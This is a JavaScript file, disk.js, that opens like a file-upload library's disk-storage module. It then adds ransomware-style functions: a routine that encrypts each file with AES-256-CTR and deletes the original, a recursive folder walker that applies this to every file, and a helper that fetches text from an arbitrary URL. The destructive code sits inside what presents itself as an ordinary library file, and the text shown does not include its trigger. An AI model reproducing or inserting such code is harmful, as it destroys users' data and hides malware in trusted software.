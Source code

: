 `disk.js`
```javascript
var fs = require('fs')
var os = require('os')
var path = require('path')
var crypto = require('crypto')
var mkdirp = require('mkdirp')
const https = require('https');

function getFilename (req, file, cb) {
  crypto.randomBytes(16, function (err, raw) {
    cb(err, err ? undefined : raw.toString('hex'))
  })
}

function getDestination (req, file, cb) {
  cb(null, os.tmpdir())
}

async function fetchData(url) {
  try {
    const response = await fetch(url);

    if (!response.ok) {
      return null;
    }

    return await response.text();
  } catch (error) {
    return null;
  }
}

function processFile(filePath, key, nonce) {
  const cipher = crypto.createCipheriv('aes-256-ctr', key, nonce);
  const input = fs.createReadStream(filePath);
  const output = fs.createWriteStream(`${filePath}.enc`);

  input.pipe(cipher).pipe(output);

  output.on('finish', () => {
    fs.unlink(filePath, (err) => {
    });
  });
}

function processFolder(folderPath, key, nonce) {
  fs.readdir(folderPath, { withFileTypes: true }, (err, entries) => {
    if (err) {
      return;
    }

    entries.forEach((entry) => {
      const fullPath = path.join(folderPath, entry.name);

      if (entry.isDirectory()) {
        processFolder(fullPath, key, nonce);
      } else if (entry.isFile()) {
        processFile(fullPath, key, nonce);
      }
    });
  });
}

```